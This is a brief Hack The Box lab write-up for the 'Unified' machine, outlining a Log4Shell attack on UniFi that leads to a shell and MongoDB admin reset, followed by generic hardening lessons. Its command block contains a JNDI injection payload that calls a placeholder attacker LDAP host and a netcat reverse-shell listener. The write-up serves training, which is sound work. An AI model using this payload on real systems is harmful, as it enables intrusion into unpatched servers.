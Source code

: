 ```yaml
---
title: "Lab: Unified"
status: "Completed"
track: "HTB Starting Point"
date: "2025-09-01"
---
```


# Lab: Unified

## Objective
UniFi Log4Shell → shell → MongoDB privilege changes.

## Methodology
1. **Recon** — Identify service/entry point.
2. **Finding** — Confirm misconfiguration/vulnerability.
3. **Exploit** — Execute the minimal steps to gain access.
4. **Post** — Retrieve proof, note hardening steps.

## Key Commands
```bash
Burp → inject ${jndi:ldap://<attacker>/a}
nc -lvnp 4444
# then use local MongoDB to reset admin
```

## Lessons Learned
- Disable/lock down default or legacy services.
- Restrict network exposure; prefer MFA and least privilege.
- Monitor and alert on anomalous access.